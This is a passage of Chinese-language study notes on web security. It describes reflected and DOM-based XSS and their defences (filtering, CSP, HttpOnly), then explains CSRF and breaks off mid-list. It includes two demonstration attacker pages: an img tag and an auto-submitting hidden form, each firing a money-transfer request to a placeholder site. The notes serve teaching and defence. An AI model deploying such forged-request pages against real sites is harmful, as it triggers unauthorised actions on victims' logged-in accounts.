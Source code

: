 + 反射型 XSS 攻击

  > 在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户。当恶意 JavaScript 脚本在用户页面中被执行时，黑客就可以利用该脚本做一些恶意操作。
+ 基于 DOM 的 XSS 攻击
  > 基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。

阻止XSS的方式:

+ 服务器对输入脚本进行过滤或转码
+ 充分利用 CSP:
  + CSP: 内容安全策略
    > 开发者明确告诉客户端（制定比较严格的策略和规则），哪些外部资源是可以加载和执行的 ，即使攻击者发现漏洞，但是它是没办法注入脚本的
+ 使用 HttpOnly 属性: 由于很多 XSS 攻击都是来盗用 Cookie 的，因此还可以通过使用 HttpOnly 属性来保护我们 Cookie 的安全。

#### CSRF

> CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事。

CSRF实现方式:

+ 自动发起 Get 请求;

  ```HTML
    <!DOCTYPE html>
    <html>
      <body>
        <h1>黑客的站点：CSRF攻击演示</h1>
        <img src="https://www.ex.org/sendcoin?user=hacker&number=100">
      </body>
    </html>
  ```

  > 这是黑客页面的 HTML 代码，在这段代码中，黑客将转账的请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求
+ 自动发起 POST 请求

  ```HTML
  <!DOCTYPE html>
  <html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <form id='hacker-form' action="https://www.ex.org/sendcoin" method=POST>
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script> document.getElementById('hacker-form').submit(); </script>
  </body>
  </html>
  ```
  
  > 在这段代码中，我们可以看到黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。

+ 引诱用户点击链接
  